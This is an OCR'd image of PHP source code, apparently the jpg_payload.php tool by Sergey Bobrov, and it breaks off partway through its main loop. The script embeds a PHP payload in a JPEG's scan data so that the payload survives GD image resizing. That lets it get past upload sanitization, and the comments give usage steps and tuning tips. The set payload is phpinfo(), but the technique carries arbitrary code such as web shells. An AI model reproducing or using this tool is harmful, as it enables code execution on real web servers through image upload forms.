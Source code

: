 ```php
<?php
	/*

	The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
	It is necessary that the size and quality of the initial image are the same as those of the processed image.

	1) Upload an arbitrary image via secured files upload script
	2) Save the processed image and launch:
	jpg_payload.php <jpg_name.jpg>

	In case of successful injection you will get a specially crafted image, which should be uploaded again.

	Since the most straightforward injection method is used, the following problems can occur:
	1) After the second processing the injected data may become partially corrupted.
	2) The jpg_payload.php script outputs "Something's wrong".
	If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

	Sergey Bobrov @Black2Fan.

	See also:
	https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

	*/

	$miniPayload = "<?=phpinfo();?>";


	if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    	die('php-gd is not installed');
	}
	
	if(!isset($argv[1])) {
		die('php jpg_payload.php <jpg_name.jpg>');
	}

	set_error_handler("custom_error_handler");

	for($pad = 0; $pad < 1024; $pad++) {
		$nullbytePayloadSize = $pad;
		$dis = new DataInputStream($argv[1]);
		$outStream = file_get_contents($argv[1]);
		$extraBytes = 0;
		$correctImage = TRUE;

		if($dis->readShort() != 0xFFD8) {
			die('Incorrect SOI marker');
		}

		while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
			$marker = $dis->readByte();
			$size = $dis->readShort() - 2;
			$dis->skip($size);
			if($marker === 0xDA) {
				$startPos = $dis->seek();
				$outStreamTmp = 
					substr($outStream, 0, $startPos) . 
					$miniPayload . 
					str_repeat("\0",$nullbytePayloadSize) . 
					substr($outStream, $startPos);
```